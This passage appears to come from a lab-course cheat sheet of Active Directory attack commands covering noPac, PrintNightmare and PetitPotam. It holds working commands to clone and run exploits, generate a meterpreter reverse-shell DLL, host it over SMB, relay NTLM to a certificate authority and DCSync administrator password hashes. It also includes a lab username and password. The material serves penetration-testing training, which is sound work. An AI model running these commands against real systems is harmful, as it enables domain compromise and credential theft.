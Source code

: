 | `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the `noPac`/`Sam_The_Admin` vulnerability and perform a `DCSync` attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |

## PrintNightmare

| Command                                                                                                                           | Description                                                                                                                                                                                                                                              |
| --------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `git clone https://github.com/cube0x0/CVE-2021-1675.git`                                                                          | Used to clone a PrintNightmare exploit using git from a Linux-based host.                                                                                                                                                                                |
| `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install`                    | Used to ensure the exploit author's (`cube0x0`) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host.                                                                                              |
| `rpcdump.py @172.16.5.5 \| egrep 'MS-RPRN\|MS-PAR'`                                                                               | Used to check if a Windows target has `MS-PAR` & `MSRPRN` exposed from a Linux-based host.                                                                                                                                                               |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll`                       | Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host.                                                                                                                                   |
| `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll`                                                               | Used to create an SMB server and host a shared folder (`CompData`) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host. |
| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host.                                                                                                                                                   |

## PetitPotam

| Command                                                                                                                                                            | Description                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController`               | Impacket tool used to create an `NTLM relay` by specifiying the web enrollment URL for the `Certificate Authority` host. Perfomred from a Linux-based host.                                 |
| `git clone https://github.com/topotam/PetitPotam.git`                                                                                                              | Used to clone the `PetitPotam` exploit using git. Performed from a Linux-based host.                                                                                                        |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5`                                                                                                                    | Used to execute the PetitPotam exploit by specifying the IP address of the attack host (`172.16.5.255`) and the target Domain Controller (`172.16.5.5`). Performed from a Linux-based host. |
| `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache`                                    | Uses `gettgtpkinit`.py to request a TGT ticket for the Domain Controller (`dc01.ccache`) from a Linux-based host.                                                                           |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL`                                      | Impacket tool used to perform a DCSync attack and retrieve one or all of the `NTLM password hashes` from the target Windows domain. Performed from a Linux-based host.                      |
